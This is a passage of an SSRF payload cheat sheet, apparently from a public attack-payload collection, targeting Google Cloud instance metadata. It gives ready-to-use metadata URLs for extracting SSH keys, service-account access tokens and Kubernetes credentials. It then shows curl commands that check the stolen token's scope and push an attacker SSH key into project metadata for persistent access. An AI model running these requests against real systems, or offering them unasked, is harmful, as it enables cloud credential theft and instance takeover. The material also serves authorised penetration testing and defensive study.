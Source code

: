 Google allows recursive pulls

```http
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
```
Beta does NOT require a header atm (thanks Mathias Karlsson @avlidienbrunn)

```http
http://metadata.google.internal/computeMetadata/v1beta1/
http://metadata.google.internal/computeMetadata/v1beta1/?recursive=true
```
Interesting files to pull out:

```http
SSH Public Key : http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json
Get Access Token : http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token
Kubernetes Key : http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json
```

**Add an SSH key**

Extract the token

```http
http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token?alt=json
```

**Check the scope of the token**

```js
$ curl https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=ya29.XXXXXKuXXXXXXXkGT0rJSA  
{ 
        "issued_to": "101302079XXXXX", 
        "audience": "10130207XXXXX", 
        "scope": "https://www.googleapis.com/auth/compute https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_write https://www.googleapis.com/auth/monitoring", 
        "expires_in": 2443, 
        "access_type": "offline" 
}
```
Now push the SSH key.

```js
curl -X POST "https://www.googleapis.com/compute/v1/projects/1042377752888/setCommonInstanceMetadata" 
-H "Authorization: Bearer ya29.c.EmKeBq9XI09_1HK1XXXXXXXXT0rJSA" 
-H "Content-Type: application/json" 
--data '{"items": [{"key": "sshkeyname", "value": "sshkeyvalue"}]}'
```

**SSRF URL for Digital Ocean**

Documentation available at https://developers.digitalocean.com/documentation/metadata/
